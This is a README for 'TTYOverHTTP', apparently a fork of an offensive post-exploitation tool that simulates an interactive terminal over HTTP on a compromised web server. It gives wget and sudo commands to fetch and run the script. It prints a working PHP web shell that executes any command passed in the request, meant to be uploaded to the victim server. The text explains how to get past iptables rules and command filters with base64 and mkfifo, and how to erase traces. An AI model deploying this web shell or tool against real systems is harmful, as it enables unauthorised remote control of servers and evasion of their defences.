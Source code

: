 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
```shell
sudo python3 tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
Sometimes when we compromise a web server, there are configured rules (**Ex: iptables**) that prevent us from obtaining a Reverse Shell via Netcat, Python, or another utility.

 With this tool, we avoid having to use a reverse shell to
 obtain a TTY later fully interactive.  Through files
 '**mkfifo**', we play to simulate an interactive TTY over HTTP, achieving
 manage the system comfortably without any type of problem.

 The only thing we need is to upload a PHP structure like the following to the compromised server to execute commands:
```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

 After its execution, you'll have a tty that will allow you to execute commands that the firewall or other filters were filtering with base64encode. Also will simulate commands like "cd.." or "pwd", to navigate between directories comfortably with mkfifo, JUST LIKE AN INTERACTIVE TTY!!
 Ctrl+C to erase any trace.
![example_usage_image](https://github.com/jaumesaa/easier-ttyoverhttp/blob/master/tty-example.png?raw=true)
